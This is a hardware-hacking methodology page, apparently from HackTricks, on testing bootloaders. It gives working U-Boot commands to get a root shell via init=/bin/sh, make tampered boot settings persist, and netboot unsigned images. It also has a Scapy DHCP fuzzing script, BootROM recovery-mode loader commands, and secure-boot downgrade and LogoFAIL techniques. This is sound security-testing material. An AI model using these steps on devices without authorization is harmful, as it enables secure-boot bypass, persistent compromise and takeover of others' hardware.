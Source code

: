 # Bootloader Testing

{{#include ../../banners/hacktricks-training.md}}

The following steps are recommended for modifying device startup configurations and testing bootloaders such as U-Boot and UEFI-class loaders. Focus on getting early code execution, assessing signature/rollback protections, and abusing recovery or network-boot paths.

Related: MediaTek secure-boot bypass via bl2_ext patching:

{{#ref}}
android-mediatek-secure-boot-bl2_ext-bypass-el3.md
{{#endref}}

## U-Boot quick wins and environment abuse

1. Access the interpreter shell
   - During boot, hit a known break key (often any key, 0, space, or a board-specific "magic" sequence) before `bootcmd` executes to drop to the U-Boot prompt.

2. Inspect boot state and variables
   - Useful commands:
     - `printenv` (dump environment)
     - `bdinfo` (board info, memory addresses)
     - `help bootm; help booti; help bootz` (supported kernel boot methods)
     - `help ext4load; help fatload; help tftpboot` (available loaders)

3. Modify boot arguments to get a root shell
   - Append `init=/bin/sh` so the kernel drops to a shell instead of normal init:
     ```
     # printenv
     # setenv bootargs 'console=ttyS0,115200 root=/dev/mtdblock3 rootfstype=<fstype> init=/bin/sh'
     # saveenv
     # boot    # or: run bootcmd
     ```

4. Netboot from your TFTP server
   - Configure network and fetch a kernel/fit image from LAN:
     ```
     # setenv ipaddr 192.168.2.2      # device IP
     # setenv serverip 192.168.2.1    # TFTP server IP
     # saveenv; reset
     # ping ${serverip}
     # tftpboot ${loadaddr} zImage           # kernel
     # tftpboot ${fdt_addr_r} devicetree.dtb # DTB
     # setenv bootargs "${bootargs} init=/bin/sh"
     # booti ${loadaddr} - ${fdt_addr_r}
     ```

5. Persist changes via environment
   - If env storage isn’t write-protected, you can persist control:
     ```
     # setenv bootcmd 'tftpboot ${loadaddr} fit.itb; bootm ${loadaddr}'
     # saveenv
     ```
   - Check for variables like `bootcount`, `bootlimit`, `altbootcmd`, `boot_targets` that influence fallback paths. Misconfigured values can grant repeated breaks into the shell.

6. Check debug/unsafe features
   - Look for: `bootdelay` > 0, `autoboot` disabled, unrestricted `usb start; fatload usb 0:1 ...`, ability to `loady`/`loads` via serial, `env import` from untrusted media, and kernels/ramdisks loaded without signature checks.

7. U-Boot image/verification testing
   - If the platform claims secure/verified boot with FIT images, try both unsigned and tampered images:
     ```
     # tftpboot ${loadaddr} fit-unsigned.itb; bootm ${loadaddr}     # should FAIL if FIT sig enforced
     # tftpboot ${loadaddr} fit-signed-badhash.itb; bootm ${loadaddr} # should FAIL
     # tftpboot ${loadaddr} fit-signed.itb; bootm ${loadaddr}        # should only boot if key trusted
     ```
   - Absence of `CONFIG_FIT_SIGNATURE`/`CONFIG_(SPL_)FIT_SIGNATURE` or legacy `verify=n` behavior often allows booting arbitrary payloads.

## Network-boot surface (DHCP/PXE) and rogue servers

8. PXE/DHCP parameter fuzzing
   - U-Boot’s legacy BOOTP/DHCP handling has had memory-safety issues. For example, CVE‑2024‑42040 describes memory disclosure via crafted DHCP responses that can leak bytes from U-Boot memory back on the wire. Exercise the DHCP/PXE code paths with overly long/edge-case values (option 67 bootfile-name, vendor options, file/servername fields) and observe for hangs/leaks.
   - Minimal Scapy snippet to stress boot parameters during netboot:
     ```python
     from scapy.all import *
     offer = (Ether(dst='ff:ff:ff:ff:ff:ff')/
              IP(src='192.168.2.1', dst='255.255.255.255')/
              UDP(sport=67, dport=68)/
              BOOTP(op=2, yiaddr='192.168.2.2', siaddr='192.168.2.1', chaddr=b'\xaa\xbb\xcc\xdd\xee\xff')/
              DHCP(options=[('message-type','offer'),
                            ('server_id','192.168.2.1'),
                            # Intentionally oversized and strange values
                            ('bootfile_name','A'*300),
                            ('vendor_class_id','B'*240),
                            'end']))
     sendp(offer, iface='eth0', loop=1, inter=0.2)
     ```
   - Also validate if PXE filename fields are passed to shell/loader logic without sanitization when chained to OS-side provisioning scripts.

9. Rogue DHCP server command injection testing
   - Set up a rogue DHCP/PXE service and try injecting characters into filename or options fields to reach command interpreters in later stages of the boot chain. Metasploit’s DHCP auxiliary, `dnsmasq`, or custom Scapy scripts work well. Ensure you isolate the lab network first.

## SoC ROM recovery modes that override normal boot

Many SoCs expose a BootROM "loader" mode that will accept code over USB/UART even when flash images are invalid. If secure-boot fuses aren’t blown, this can provide arbitrary code execution very early in the chain.

- NXP i.MX (Serial Download Mode)
  - Tools: `uuu` (mfgtools3) or `imx-usb-loader`.
  - Example: `imx-usb-loader u-boot.imx` to push and run a custom U-Boot from RAM.
- Allwinner (FEL)
  - Tool: `sunxi-fel`.
  - Example: `sunxi-fel -v uboot u-boot-sunxi-with-spl.bin` or `sunxi-fel write 0x4A000000 u-boot-sunxi-with-spl.bin; sunxi-fel exe 0x4A000000`.
- Rockchip (MaskROM)
  - Tool: `rkdeveloptool`.
  - Example: `rkdeveloptool db loader.bin; rkdeveloptool ul u-boot.bin` to stage a loader and upload a custom U-Boot.

Assess whether the device has secure-boot eFuses/OTP burned. If not, BootROM download modes frequently bypass any higher-level verification (U-Boot, kernel, rootfs) by executing your first-stage payload directly from SRAM/DRAM.

## UEFI/PC-class bootloaders: quick checks

10. ESP tampering and rollback testing
   - Mount the EFI System Partition (ESP) and check for loader components: `EFI/Microsoft/Boot/bootmgfw.efi`, `EFI/BOOT/BOOTX64.efi`, `EFI/ubuntu/shimx64.efi`, `grubx64.efi`, vendor logo paths.
   - Try booting with downgraded or known-vulnerable signed boot components if Secure Boot revocations (dbx) aren’t current. If the platform still trusts old shims/bootmanagers, you can often load your own kernel or `grub.cfg` from the ESP to gain persistence.

11. Boot logo parsing bugs (LogoFAIL class)
   - Several OEM/IBV firmwares were vulnerable to image-parsing flaws in DXE that process boot logos. If an attacker can place a crafted image on the ESP under a vendor-specific path (e.g., `\EFI\<vendor>\logo\*.bmp`) and reboot, code execution during early boot may be possible even with Secure Boot enabled. Test whether the platform accepts user-supplied logos and whether those paths are writable from the OS.

## Hardware caution

Be cautious when interacting with SPI/NAND flash during early boot (e.g., grounding pins to bypass reads) and always consult the flash datasheet. Mistimed shorts can corrupt the device or the programmer.

## Notes and additional tips

- Try `env export -t ${loadaddr}` and `env import -t ${loadaddr}` to move environment blobs between RAM and storage; some platforms allow importing env from removable media without authentication.
- For persistence on Linux-based systems that boot via `extlinux.conf`, modifying the `APPEND` line (to inject `init=/bin/sh` or `rd.break`) on the boot partition is often enough when no signature checks are enforced.
- If userland provides `fw_printenv/fw_setenv`, validate that `/etc/fw_env.config` matches the real env storage. Misconfigured offsets let you read/write the wrong MTD region.

## References

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)
- [https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot](https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-42040](https://nvd.nist.gov/vuln/detail/CVE-2024-42040)

{{#include ../../banners/hacktricks-training.md}}
